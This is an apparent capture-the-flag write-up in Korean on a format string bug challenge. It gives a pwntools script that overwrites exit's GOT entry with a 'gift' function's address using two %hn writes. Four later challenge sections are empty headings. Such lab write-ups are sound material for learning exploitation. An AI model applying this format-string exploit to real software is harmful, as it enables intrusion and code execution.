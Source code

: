 # fsb

## oneshot0

주어진 gift 함수를 실행하면 된다. PIE가 없고 partial RELRO이므로 fsb를 활용하여 exit 함수의 got를 gift함수의 주소로 덮어쓸 수 있다. 

gift 함수의 주소값이 크기 때문에 출력하는 것에 시간이 오래 걸리므로 %hn을 이용하여 2회에 걸쳐 나누어서 입력할 수 있다.

```python

from pwn import *

# context.log_level = 'debug'

e = ELF("./oneshot")
p = process(e.path)


p.recvuntil(b"\n\n")
payload = f'%{e.symbols["gift"] >> 16}c'.encode()
payload += b"%10$hn"
payload += f"%{(e.symbols['gift'] & 0xffff) - (e.symbols['gift'] >> 16)}c".encode()
payload += b"%11$hn"
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["exit"] + 2)
payload += p64(e.got["exit"])
p.send(payload)

p.interactive()


```


## oneshot1




## oneshot2




## oneshot3





## oneshot4

